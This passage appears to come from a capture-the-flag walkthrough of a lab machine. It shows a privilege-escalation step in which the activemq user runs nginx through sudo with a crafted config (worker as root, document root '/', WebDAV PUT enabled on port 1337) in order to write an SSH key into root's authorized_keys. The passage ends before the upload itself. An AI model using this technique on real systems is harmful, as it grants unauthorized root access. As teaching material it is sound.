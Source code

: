             include /etc/nginx/mime.types;
            default_type application/octet-stream;
            ssl_prefer_server_ciphers on;
            access_log /var/log/nginx/access.log;
            error_log /var/log/nginx/error.log;
            gzip on;
            include /etc/nginx/conf.d/*.conf;
            include /etc/nginx/sites-enabled/*;
    }
    ```

    We can modify the config file and use the [ngx\_http\_dav\_module](https://nginx.org/en/docs/http/ngx\_http\_dav\_module.html) to write our public SSH key into the `root` user's `authorized_keys` file. Our new config file should look like this:

    ```bash
    activemq@broker:~$ cat mal_config.conf
    user root;
    worker_processes 4;
    pid /tmp/nginx.pid;
    events {
    worker_connections 768;
    }
    http {
    server {
    listen 1337;
    root /;
    autoindex on;
    dav_methods PUT;
    }
    }
    ```

    The key parts are the following:

    * `user root;` The worker processes will be run by `root`, meaning when we eventually upload a file, it will also be owned by `root`.
    * `root /;` The document root will be the topmost directory of the filesystem.
    * `dave_methods PUT;` We enable the `WebDav` HTTP extension with the `PUT` method, which allows clients to upload files.

    We can now configure `nginx` to use it as follows:

    ```bash
    activemq@broker:~$ cd /usr/sbin
    activemq@broker:/usr/sbin$ sudo nginx -c ~/mal_config.conf
    # check that our config is active
    activemq@broker:/usr/sbin$ netstat -ntl
    Active Internet connections (only servers)
    Proto Recv-Q Send-Q Local Address           Foreign Address         State
    tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN
    tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN
    tcp        0      0 0.0.0.0:1337            0.0.0.0:*               LISTEN
    tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN
    ```
